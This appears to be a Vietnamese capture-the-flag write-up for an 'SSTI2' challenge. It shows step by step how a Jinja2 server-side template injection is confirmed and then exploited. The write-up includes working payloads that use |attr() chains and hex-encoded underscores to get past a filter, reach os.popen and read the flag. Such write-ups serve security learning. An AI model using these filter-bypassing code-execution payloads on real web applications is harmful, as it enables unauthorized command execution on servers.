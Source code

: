 # SSTI2

![img](288)

Truy cập website:

![img](289)

Một thử thách khác liên quan tới lỗ hổng `Server-side Template Injection`. Tôi tiếp tục thử nhập `{{7*7}}` vào field:

![img](290)

Click `OK`:

![img](291)

=> Website có thể dính lỗ hổng `SSTI`, cụ thể tôi biết được template mà website dùng là `Jinja2`. Tôi đã thử nhập payload như bài lab trước nhưng không hoạt động:

    {{config.__class__.__init__.__globals__[‘os’].popen(‘cat flag’).read()}}

![img](292)

Như vậy website đã có 1 biện pháp bảo vệ trước những payload `SSTI` đơn giản. Tôi đã thử làm phức tạp payload hơn 1 chút:

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

Với payload này, tôi đã:

**1. Truy cập vào builtins và __import__ một cách gián tiếp:**
- Dùng `__builtins__` và `__import__` là chiêu phổ biến để import module mới khi `globals()` không có sẵn os.

**2. Dùng encoding để bypass filter:**
- `\x5f` là ký tự `_`, nên:
    - `'\x5f\x5fglobals\x5f\x5f'` => `'__globals__'`
    - `'\x5f\x5fimport\x5f\x5f'` => `'__import__'`
- Đây là kỹ thuật `obfuscation` để bypass blacklist hoặc WAF.

**3. Dùng `filter-safe` cách truy cập attribute và gọi method:**
- Dùng `|attr('name')` để truy cập attribute an toàn, tránh bị chặn cú pháp `.`.

![img](293)

=> Thành công. Như vậy payload cuối cùng để tìm flag sẽ là:

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


![img](294)

